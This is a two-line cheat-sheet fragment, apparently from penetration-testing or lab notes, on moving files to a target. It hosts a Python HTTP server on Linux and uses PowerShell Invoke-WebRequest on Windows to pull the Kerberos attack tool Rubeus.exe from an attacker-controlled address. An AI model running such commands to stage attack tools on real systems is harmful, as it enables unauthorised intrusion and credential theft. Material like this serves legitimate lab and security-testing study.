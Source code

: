 ## IWR

Linux: `python3 -m http.server 80`
Windows: `iwr -uri http://10.10.14.21/Rubeus.exe -OutFile Rubeus.exe`
